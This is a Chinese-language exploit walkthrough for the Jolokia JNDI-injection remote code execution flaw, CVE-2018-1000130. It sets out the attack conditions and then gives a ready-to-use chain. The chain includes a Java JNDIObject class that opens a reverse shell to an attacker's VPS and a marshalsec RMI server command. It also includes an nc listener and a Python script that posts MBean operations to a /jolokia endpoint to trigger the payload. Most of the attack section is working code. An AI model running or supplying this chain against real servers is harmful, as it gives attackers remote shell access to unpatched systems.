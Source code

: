 （CVE-2018-1000130）Jolokia 远程代码执行漏洞
============================================

一、漏洞简介
------------

Jolokia服务的代理模式默认情况下在1.5.0版之前容易受到**JNDI注入**的攻击。当以代理模式部署Jolokia代理时，有权访问Jolokia
Web端点的外部攻击者可以通过JNDI注入攻击远程执行任意代码。由于Jolokia库使用用户提供的输入启动LDAP
/ RMI连接，因此有可能造成这种攻击。

#### 利用条件：

-   目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
-   目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关
    MBean
-   目标可以请求攻击者的服务器（请求可出外网）
-   实际测试 RMI 注入受目标 JDK 版本影响，jdk \< 6u141/7u131/8u121

二、漏洞影响
------------

Jolokia \< 1.50

三、复现过程
------------

#### 漏洞分析

1.  利用 jolokia 调用 createJNDIRealm 创建 JNDIRealm
2.  设置 connectionURL 地址为 RMI Service URL
3.  设置 contextFactory 为 RegistryContextFactory
4.  停止 Realm
5.  启动 Realm 以触发指定 RMI 地址的 JNDI 注入，造成 RCE 漏洞

### 漏洞复现

##### 步骤一：查看已存在的 MBeans

访问 `/jolokia/list` 接口，查看是否存在 `type=MBeanFactory` 和
`createJNDIRealm` 关键词。

##### 步骤二：准备要执行的 Java 代码

需要修改脚本里对应的反弹shell的ip和端口

    /**
     *  javac -source 1.5 -target 1.5 JNDIObject.java
     *
     *  Build By LandGrey
     * */

    import java.io.File;
    import java.io.InputStream;
    import java.io.OutputStream;
    import java.net.Socket;

    public class JNDIObject {
        static {
            try{
                String ip = "your-vps-ip";
                String port = "443";
                String py_path = null;
                String[] cmd;
                if (!System.getProperty("os.name").toLowerCase().contains("windows")) {
                    String[] py_envs = new String[]{"/bin/python", "/bin/python3", "/usr/bin/python", "/usr/bin/python3", "/usr/local/bin/python", "/usr/local/bin/python3"};
                    for(int i = 0; i < py_envs.length; ++i) {
                        String py = py_envs[i];
                        if ((new File(py)).exists()) {
                            py_path = py;
                            break;
                        }
                    }
                    if (py_path != null) {
                        if ((new File("/bin/bash")).exists()) {
                            cmd = new String[]{py_path, "-c", "import pty;pty.spawn(\"/bin/bash\")"};
                        } else {
                            cmd = new String[]{py_path, "-c", "import pty;pty.spawn(\"/bin/sh\")"};
                        }
                    } else {
                        if ((new File("/bin/bash")).exists()) {
                            cmd = new String[]{"/bin/bash"};
                        } else {
                            cmd = new String[]{"/bin/sh"};
                        }
                    }
                } else {
                    cmd = new String[]{"cmd.exe"};
                }
                Process p = (new ProcessBuilder(cmd)).redirectErrorStream(true).start();
                Socket s = new Socket(ip, Integer.parseInt(port));
                InputStream pi = p.getInputStream();
                InputStream pe = p.getErrorStream();
                InputStream si = s.getInputStream();
                OutputStream po = p.getOutputStream();
                OutputStream so = s.getOutputStream();
                while(!s.isClosed()) {
                    while(pi.available() > 0) {
                        so.write(pi.read());
                    }
                    while(pe.available() > 0) {
                        so.write(pe.read());
                    }
                    while(si.available() > 0) {
                        po.write(si.read());
                    }
                    so.flush();
                    po.flush();
                    Thread.sleep(50L);
                    try {
                        p.exitValue();
                        break;
                    } catch (Exception e) {
                    }
                }
                p.destroy();
                s.close();
            }catch (Throwable e){
                e.printStackTrace();
            }
        }
    }

##### 步骤三：架设恶意 rmi 服务

    https://github.com/ianxtianxt/marshalsec

使用下面命令架设对应的 rmi 服务：

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://your-vps-ip:80/#JNDIObject 1389

##### 步骤四：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

    nc -lvp 上面java脚本里面自己设置的端口

##### 步骤五：发送恶意 payload

根据实际情况修改 脚本中的目标地址，RMI
地址、端口等信息，然后在自己控制的服务器上运行。

    #!/usr/bin/env python3
    # coding: utf-8
    # Referer: https://ricterz.me/posts/2019-03-06-yet-another-way-to-exploit-spring-boot-actuators-via-jolokia.txt


    import requests


    url = 'http://127.0.0.1:8080/jolokia'


    create_realm = {
        "mbean": "Tomcat:type=MBeanFactory",
        "type": "EXEC",
        "operation": "createJNDIRealm",
        "arguments": ["Tomcat:type=Engine"]
    }

    wirte_factory = {
        "mbean": "Tomcat:realmPath=/realm0,type=Realm",
        "type": "WRITE",
        "attribute": "contextFactory",
        "value": "com.sun.jndi.rmi.registry.RegistryContextFactory"
    }

    write_url = {
        "mbean": "Tomcat:realmPath=/realm0,type=Realm",
        "type": "WRITE",
        "attribute": "connectionURL",
        "value": "rmi://your-vps-ip:1389/JNDIObject"
    }

    stop = {
        "mbean": "Tomcat:realmPath=/realm0,type=Realm",
        "type": "EXEC",
        "operation": "stop",
        "arguments": []
    }

    start = {
        "mbean": "Tomcat:realmPath=/realm0,type=Realm",
        "type": "EXEC",
        "operation": "start",
        "arguments": []
    }

    flow = [create_realm, wirte_factory, write_url, stop, start]

    for i in flow:
        print('%s MBean %s: %s ...' % (i['type'].title(), i['mbean'], i.get('operation', i.get('attribute'))))
        r = requests.post(url, json=i)
        r.json()
        print(r.status_code)
